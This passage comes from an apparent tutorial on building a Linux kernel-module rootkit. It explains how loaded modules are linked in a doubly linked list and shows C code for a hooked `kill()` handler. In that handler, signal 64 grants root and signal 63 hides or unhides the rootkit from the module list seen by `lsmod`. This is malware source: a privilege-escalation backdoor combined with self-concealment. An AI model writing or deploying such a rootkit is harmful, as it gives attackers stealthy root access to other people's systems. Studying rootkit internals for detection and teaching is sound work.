 This means that we can access to `__this_module` by the `THIS_MODULE` macro.

Take a look at [here](https://github.com/torvalds/linux/blob/729e3d091984487f7aa1ebfabfe594e5b317ed0f/include/linux/module.h#L364), where Linux defines `struct module`:
```c
struct module {
    enum module_state state;
    
    /* Member of list of modules */
    struct list_head list;

    /* Unique handle for this module */
    char name[MODULE_NAME_LEN];

    /* More stuff we aren't interested in... */
};
```
It's essential to point out that **modules** are saved as a linked list, and each `struct module` is a member of that linked list.

Moreover, this linked list is indeed a doubly linked list, as defined in [include/linux/types.h](https://github.com/torvalds/linux/blob/3e5e6c9900c3d71895e8bdeacfb579462e98eba1/include/linux/types.h#L193):
```c
struct list_head {
	struct list_head *next, *prev;
};
```
For a concrete example, say we have this output when running `lsmod` command:
<img src="https://lh7-rt.googleusercontent.com/docsz/AD_4nXfphMMYmvPxOUtlE--scIf4f3A_jKOXPYtGg9w3be4DZ2TvjpauqKrIF-VDYT6viTFkAiLxGeHv-oZHuhkOayzEDYJ9qZuzp0JFeq850RVn1ZaZky5B5qnfQIKV0KDscuEgoixFQOqgYTG2oKOFn6Q_1FJ3?key=8gWUuztVdypWUJCrXgpmWzsr"></img>

`rootkit` is currently the very first module in the list, so 
`(&THIS_MODULE->list)->next` in `rootkit.c` will be the result in a pointer to `joydev` module. Similarly, `(&THIS_MODULE->list)->prev` will be `null`, since the previous node of the first node does not exist.

Hence, we will try to manipulate `(&THIS_MODULE->list)` in a way that it would hide **and** unhide itself from the module list!
## Business Logic
We will first declare these two static variables:
```c
static bool hidden = 0; // hiding state of rootkit                                            
static struct list_head *prev_save; // previous module of rootkit
```
And some modifications to our `hook_kill()` function:
```c
if (sig == 64)
{
    printk(KERN_INFO "rootkit@hook_kill: giving root...\n");
    set_root();
    return 0;
} else if (sig == 63) {
	// 63 is our new signal number for hiding rootkit!
    if (hidden == 0) {
		printk(KERN_INFO "rootkit@hook_kill: hiding rootkit from module lists\n");
        hide_mod();
    } else {
		printk(KERN_INFO "rootkit@hook_kill: unhiding rootkit from module lists\n");
		show_mod();
    }
    hidden = hidden ^ 1;
}
```